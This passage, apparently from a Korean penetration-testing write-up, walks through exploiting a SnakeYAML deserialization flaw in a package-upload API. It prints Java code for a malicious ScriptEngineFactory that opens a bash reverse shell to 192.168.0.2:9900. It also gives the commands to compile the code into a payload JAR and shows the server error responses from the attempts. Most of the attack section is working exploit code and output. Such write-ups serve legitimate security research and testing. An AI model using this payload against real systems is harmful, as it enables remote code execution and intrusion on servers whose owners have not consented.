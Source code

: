 업로드할 패키지 파일은 ZIP 형식이어야 하며, 위의 구조와 같이 압축 파일명과 동일한 이름의 디렉터리 내에 YAML 파일이 위치하고 있어야 에러가 발생하지 않고 패키지 파일이 정상적으로 인식됩니다.

### 2.2.2 리버스 셸 연결

```java
public class AwesomeScriptEngineFactory implements ScriptEngineFactory {

    public AwesomeScriptEngineFactory() {
        try {
            Process p = Runtime.getRuntime().exec("bash -c $@|bash 0 echo bash -i >& /dev/tcp/192.168.0.2/9900 0>&1");
        } catch (IOException e) {
            e.printStackTrace();
        }
    }
    
    ...
    
}
```

```
javac src/artsploit/AwesomeScriptEngineFactory.java
jar -cvf yaml-payload.jar -C src/ .
```

SnakeYAML 취약점과 관련하여 공개되어 있는 스켈레톤 코드를 기반으로, 리버스 셸을 연결하기 위한 페이로드를 삽입 후 Java 아카이브 파일(JAR)을 생성합니다.

<br>

```
Status Code: 500
Response Body: {"timestamp":"2024-10-24T09:25:17.787+00:00","status":500,"error":"Internal Server Error","exception":"org.yaml.snakeyaml.constructor.ConstructorException","message":"Cannot create property=displayName for JavaBean=PackageMetadata{id='null', apiVersion='1.0.0', origin='thePoc', repositoryName='local', kind='test', name='null', version='5.0.0', packageSourceUrl='null', packageHomeUrl='null', tags='null', maintainer='null', description='null', sha256='null', iconUrl='null'}\n in 'string', line 1, column 1:\n    repositoryId: 1\n    ^\nCan't construct a java object for tag:yaml.org,2002:javax.script.ScriptEngineManager; exception=java.lang.reflect.InvocationTargetException\n in 'string', line 7, column 14:\n    displayName: !!javax.script.ScriptEngineManag ... \n                 ^\n\n in 'string', line 7, column 14:\n    displayName: !!javax.script.ScriptEngineManag ... \n                 ^\n","path":"/api/package/upload"}
```

```
Status Code: 500
Response Body: {"timestamp":"2024-10-24T09:26:01.779+00:00","status":500,"error":"Internal Server Error","exception":"org.yaml.snakeyaml.constructor.ConstructorException","message":"Cannot create property=displayName for JavaBean=PackageMetadata{id='null', apiVersion='1.0.0', origin='thePoc', repositoryName='local', kind='test', name='null', version='5.0.0', packageSourceUrl='null', packageHomeUrl='null', tags='null', maintainer='null', description='null', sha256='null', iconUrl='null'}\n in 'string', line 1, column 1:\n    repositoryId: 1\n    ^\nargument type mismatch\n in 'string', line 7, column 14:\n    displayName: !!javax.script.ScriptEngineManag ... \n                 ^\n","path":"/api/package/upload"}
```
